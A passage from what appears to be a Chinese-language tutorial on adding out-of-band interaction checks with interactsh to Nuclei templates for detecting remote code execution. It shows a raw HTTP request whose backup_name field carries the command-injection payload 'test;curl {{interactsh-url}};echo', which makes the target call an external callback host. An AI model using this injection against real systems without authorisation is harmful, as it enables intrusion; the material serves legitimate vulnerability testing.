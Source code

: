 ```yaml
          - "contains(body_5,'downloadbackup.php?f=dbbackup-')"
        condition: and

```

## 带外交互

测试应用程序中的远程代码执行（RCE）或服务端请求伪造（SSRF）漏洞的一种可靠方法是使用带外交互的payload。本质上，这意味着诱使应用程序后端连接到我们可以监控的外部服务。各种工具常用的交互方式是进行DNS查询或向安全研究人员可以访问日志功能的主机发起HTTP请求。

ProjectDiscovery的interactsh工具就是为此目的而设计的。为了演示如何在Nuclei模板中使用它，我们可以修改最后一个请求，将interactsh UURL作为命令注入payload的一部分注入，并使用一个匹配器来检查交互。

模板中的第五个原始HTTP请求将更改为以下内容：

```yaml
    - |
      POST {{Path}}/backup_db.php HTTP/1.1
      Host: {{Hostname}}
      Content-Type: application/x-www-form-urlencoded
      
 backup_name=test%3Bcurl+{{interactsh-url}}%3Becho+&submit=Create+Backup&csrftoken={{csrftoken}}
```

经过URL解码后，注入到漏洞参数的payload是：

```yaml
test;curl {{interactsh-url}};echo
```

这会生成一个interactsh URL，比如`vyxlk2172l7dqfhn58gvy5362x8nwc.oast.fun` ，并在发送到服务器之前将其插入到请求中。

匹配器将更改为以下内容：

```yaml
      - type: word
        part: interactsh_protocol # Confirms the HTTP Interaction
        words:
          - "http"
```

这个匹配器会查询`interactsh`服务器，并检查它是否收到了来自脆弱目标的HTTP请求，除了HTTP交互，我们也可以使用DNS或SMTP。有关使用带外交互的更多详细信息，请参阅[模板指南](https://nuclei.projectdiscovery.io/templating-guide/interactsh/?ref=blog.projectdiscovery.io)。

以下是一个Nuclei检测`interactsh`的示例输出：

![](../img/capture20220617172011.png)
